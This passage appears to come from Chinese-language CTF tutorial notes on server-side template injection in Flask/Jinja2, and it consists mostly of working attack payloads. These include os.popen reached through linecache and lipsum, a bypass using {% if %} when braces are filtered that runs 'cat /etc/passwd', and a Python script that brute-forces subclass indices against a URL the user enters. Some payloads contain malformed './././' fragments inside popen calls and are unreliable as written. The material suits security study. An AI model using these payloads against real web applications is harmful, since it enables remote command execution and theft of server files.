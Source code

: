 #### linecache函数执行命令

linecache函数可用于读取任意一个文件的某一行，而这个函数中也引入了os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

```
{{[].__class__.__base__.__subclasses__()[19].__init__.__globals__.linecache.os.popen("ls").read()}}
```



## 4.lipsum 

```
?name={{(lipsum.__globals__).os.popen(request.args.ocean).read()}}&ocean =cat /flag
```

使用flask里的lipsum方法来执行命令：flask里的lipsum方法,可以用于得到__builtins__，而且lipsum.__globals__含有os模块

# 5.大括号过滤

> `{{}}`被过略,尝试`{%%}`

判断语句是否能正确执行

```php
{% if 2>1 %}benben{%endif%}
```

```php
{%if "".__class__%}benben{%endif%}
```

有回显说明<font color=red>**"".\_\_class\_\_**</font>有内容

```php
{% if "".__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"](./././././././././././"cat /etc/passwd").read() %}benben{% endif %}
```

查询脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"code":'{% if "".__class__.__base__.__subclasses__()['+str(i)+'].__init__.__globals__["popen"](./././././././././././"cat /etc/passwd").read() %}benben{% endif %}'}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if 'benben' in str(response.content):
                print(i)
    except:
        pass

```
